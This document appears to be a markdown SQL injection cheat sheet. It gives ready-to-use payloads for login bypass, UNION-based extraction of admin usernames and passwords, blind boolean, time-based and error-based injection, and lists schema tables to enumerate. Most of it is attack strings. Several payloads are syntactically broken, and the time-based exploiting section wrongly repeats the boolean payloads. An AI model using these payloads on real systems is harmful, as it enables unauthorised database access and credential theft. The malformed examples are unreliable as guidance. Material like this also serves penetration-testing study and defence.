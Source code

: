# Tips and Tricks

---
### Useful Tables

**MySQL, Postgres and MSSQL**

- INFORMATION_SCHEMA
    .schemata
    .tables
    .columns

**Extra: Postgress**
- pg_catalog
    .pg_tables
    .pg_catalog
---

### Usefull commands

```sql
ORDER BY <1-5...>
SELECT NULL, NULL...

CONCAT(column1, ":", column2)
GROUP_CONCAT(column SEPARATOR ";")  <- useful to blind sqli: data1;data2;data3
SUBSTR(data or (query), 1, 1)
SELECT SLEEP(5)

IF((Condition), <case_true>, <case_false>)
or
SELECT CASE WHEN (Condition) THEN <case_true> ELSE <case_false> END
```

---


## Main kind of SQLi

- #### Broken Access Authentication
    *Abuse from SELECT logic, this kind of query generally utilize WHERE clause and Logic which can be modified to bypass the logins screens*

```mysql
' or '1'='1'-- -
1 or 1=1-- -
admin' and '1'='1 
...
```

---

- #### Union Attacks
    *On this context generally the data which is sended from backend is a index that will display some data correspondent, as a "SELECT" but with much more columns.... we can use some payloads to identify the quantity of columns that are selected and after this start to enumerate, because where the data selected should be, the new malicious query will return our data on this places*
    
```mysql
# Identifying

' ORDER BY <1-5...> 
' UNION SELECT NULL, NULL, NULL, ... 
```

```mysql
#Exploiting

' UNION SELECT NULL, c_password, NULL FROM tb_users WHERE c_username = 'admin'#
' UNION SELECT CONCAT(c_username, ':', c_password) FROM tb_users WHERE c_username = 'admin'-- -
```

---

- #### Blind SQL Injection With Conditional Responses
    *On this context we need to use conditions or as i like to say... yes or not questions based... such as... the first letter of data extracted is f? Using this logic and some select concatenations statements to make the query run.*

```mysql
#Identifiyng

data' AND SELECT IF((1=1), true, false)-- -
data' UNION SELECT IF((1=1), true, false)-- -
data' UNION SELECT IF((1=1), true, false) %23
```

```mysql
#Exploiting

' AND SELECT IF(SUBSTR((SELECT database(), 1, 1) = 'a'), true, false)-- -

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false) 

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false) %23
```

---

- #### Time-Based Blind SQL Injection With 
    *its a vulnerability that uses query time functions to spot the flaw the consequently remount across database*

```mysql
#Identifying

' OR SLEEP(5)
admin' and SLEEP(5)
```

```mysql
# Exploiting
' AND SELECT IF(SUBSTR((SELECT database(), 1, 1) = 'a'), true, false)-- -

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false)-- -
```

---

- #### SQL Injection Error Based
    *Diferently the past vulnerabilities, this kind have a feedback or well saying a error message after the query try.*

```mysql
#Identifying
 ' 
 \
 ' union select 1, 2, 3... %23    
```

```mysql
#Exploiting 
 ' AND 1=CAST((SELECT 1) AS INT) %23
 ' AND 1=CAST((SELECT c_user FROM t_users) as INT)-- -
 ```
